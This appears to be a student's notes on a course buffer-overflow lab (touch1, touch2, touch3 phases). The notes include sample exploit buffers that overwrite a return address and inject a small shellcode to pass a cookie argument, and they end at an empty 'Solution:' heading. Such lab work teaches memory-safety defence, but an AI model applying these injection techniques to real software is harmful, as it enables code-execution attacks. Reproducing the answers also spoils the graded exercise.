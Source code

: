 Phase 0
=======

Determine address of touch1()

Determine size allocated for stack

Convert address using hex2raw

Insert address in buffer (pad rest with 00's)

Sample buffer:

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  55 19 40 00 00 00 00 00  /* address of touch1 */

Phase 1
=======

Similar to previous phase, but call a function with an argument

Will call touch2(cookie)

Make a .s file with movl cookie, $edi 

Generate .o file with gcc

	gcc -c file.s

Obtain hex for instruction

	objump -d file.o

Insert instruction 

Sample buffer:

  bf 9a d9 e2 68 c3 00 00  /* instruction: 
				movl cookie, edi
				retq */

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  38 81 67 55 00 00 00 00  /* address of movl cookie, edi */

  81 19 40 00 00 00 00 00  /* address of touch2 */

Phase 2
=======

Call touch3() with cookie's string representation as argument
Similar strategy as in Phase 1 but you have to put the argument
deeper in the stack because if not, other called functions will overwrite
it. To work, the buffer must be large (I did 24 * 8 bytes), and I put the
argument at the end. The trickiest part is making sure that you get the 
right endian form for the string and you know where the address of the 
argument is.

Solution:


